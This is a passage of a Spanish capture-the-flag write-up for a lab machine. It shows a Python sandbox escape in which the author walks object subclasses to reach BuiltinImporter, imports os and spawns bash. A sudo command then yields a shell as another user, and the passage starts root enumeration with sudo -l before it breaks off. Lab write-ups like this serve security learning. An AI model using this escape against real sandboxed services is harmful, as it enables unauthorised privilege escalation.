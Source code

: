 Por estas razones no podíamos utilizar `__import__` anteriormente, ya que forma parte de las **funciones peligrosas**.

### Rompiendo protecciones Python exec

El proceso de explotación está extraído del siguiente [enlace](https://netsec.expert/posts/breaking-python3-eval-protections/). 

En *Python*, casi todo es un objeto que hereda de una clase base llamada *object*. Esto incluye módulos, variables, tipos de variables y funciones. También es posible declarar tipos de variables implícitamente como `list() = []`, `dict() = {}`, `str() = ""`. Es posible **explorar la herencia de los objetos en Python** para encontrar los *built-ins* no eliminados o los módulos que se pueden usar para importar más código, incluso sin tener acceso a los globales o locales.

Utilizaremos la clase *BuiltinImporter* de la lista de subclases, la instanciaremos e importaremos un módulo, en nuestro caso *os*. El comando de sistema que ejecutaremos será una *bash*:

```bash
## Trying to do anything up here would fail since the builtins are cleared.
for some_class in [].__class__.__base__.__subclasses__():
    if some_class.__name__ == 'BuiltinImporter':
        some_class().load_module('os').system('bash')
```

Ejecutaremos */usr/bin/safe_python* pasándole un archivo con el contenido anterior y deberíamos ganar una consola como *jack_adm*:

```bash
jack@rainyday:/tmp$ sudo -u jack_adm /usr/bin/safe_python pwned
jack_adm@rainyday:/tmp$ whoami
jack_adm
```


## Consiguiendo shell como root

### Reconocimiento del sistema

#### sudoers

*jack_adm* tiene asignado el siguiente privilegio a nivel de *sudoers*:

```bash
jack_adm@rainyday:/tmp$ sudo -l
Matching Defaults entries for jack_adm on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack_adm may run the following commands on localhost:
    (root) NOPASSWD: /opt/hash_system/hash_password.py
```

Podemos ejecutar como el usuario *root*, sin proporcionar contraseña, el binario */opt/hash_system/hash_password.py*.

Como su propio nombre indica, *hash_password.py* *hashea* una contraseña en *bcrypt*:
